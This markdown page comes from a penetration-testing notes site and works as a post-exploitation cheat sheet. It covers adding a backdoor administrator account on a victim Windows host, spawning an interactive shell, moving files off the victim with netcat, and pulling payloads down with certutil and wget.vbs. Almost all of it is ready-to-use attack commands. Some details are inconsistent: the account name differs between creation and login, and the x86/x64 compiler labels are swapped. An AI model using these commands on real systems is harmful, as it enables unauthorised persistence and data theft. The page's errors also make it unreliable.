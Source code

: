 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

`su $USER`
`sudo -u $USER $cmd`

### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

## Cross-compiling for Windows

#### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

#### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

## Exfiltration

- SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Kali
nc -nv $RHOST $RPORT < in.file
```

- exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe

```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```